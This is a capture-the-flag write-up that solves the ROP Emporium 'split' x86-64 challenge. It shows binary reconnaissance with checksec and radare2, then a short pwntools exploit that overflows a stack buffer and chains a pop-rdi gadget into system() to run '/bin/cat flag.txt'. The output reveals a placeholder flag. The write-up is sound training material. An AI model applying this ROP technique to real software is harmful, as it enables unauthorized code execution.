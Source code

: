 1. `file split`

```bash
$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), 
dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, 
BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```

2. gdb-peda, checksec

```bash
$ gdb-peda split
Reading symbols from split...
(No debugging symbols found in split)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

3. `r2 split`, `aa`, `afl`, I notice the special function **pwnme**, **usefulFunction**. 

```bash
[0x00400742]> afl
0x004005b0    1 42           entry0
0x004005f0    4 42   -> 37   sym.deregister_tm_clones
0x00400620    4 58   -> 55   sym.register_tm_clones
0x00400660    3 34   -> 29   sym.__do_global_dtors_aux
0x00400690    1 7            entry.init0
0x004006e8    1 90           sym.pwnme      ====> this one
0x00400580    1 6            sym.imp.memset
0x00400550    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.printf
0x00400590    1 6            sym.imp.read
0x00400742    1 17           sym.usefulFunction     ====> this one
0x00400560    1 6            sym.imp.system
0x004007d0    1 2            sym.__libc_csu_fini
0x004007d4    1 9            sym._fini
0x00400760    4 101          sym.__libc_csu_init
0x004005e0    1 2            sym._dl_relocate_static_pie
0x00400697    1 81           main             ====> this one
0x004005a0    1 6            sym.imp.setvbuf
0x00400528    3 23           sym._init
```

4. I choose to see the main function first. It seems do nothing but print some strings.

![Image](https://i.imgur.com/6wijIYI.png)

4. go to see another function **pwnme**. we have a input which store at **var_20h(rbp-0x20)**. 

![Image](https://i.imgur.com/nvN8Qsf.png)

5. and the usefulfunction is below.

![Image](https://i.imgur.com/NmfH83V.png)

6. we use `iz` to find an `cat / flag.txt`

```bash
[0x00400742]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt ===> this one
```

7. then we can write our expolit code.
    we need to padding to the return address, it is 0x20 + 0x8(rbp), then the address of `pop rdi ; ret`, then address of `/bin/cat flag.txt`, and `sym.imp.system`
```
from pwn import *

r = process('./split')
#r = remote('120.114.62.211', 6126)

padding = b'A'*40
pop_rdi = 0x4007c3
cat_flag = 0x601060
syscall = 0x400560

# payload = padding
# payload += p64(pop_rdi)
# payload += p64(cat_flag)
# payload += p64(syscall)

r.sendline(padding + p64(pop_rdi) + p64(cat_flag) + p64(syscall))  #if 64 bit ,or 32bit use p32

r.interactive()
```

8. then we can run the code and get the flag.

```bash
$ python3 exploit_split.py
[+] Starting local process './split': pid 155
[*] Switching to interactive mode
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```
ROPE{a_placeholder_32byte_flag!}

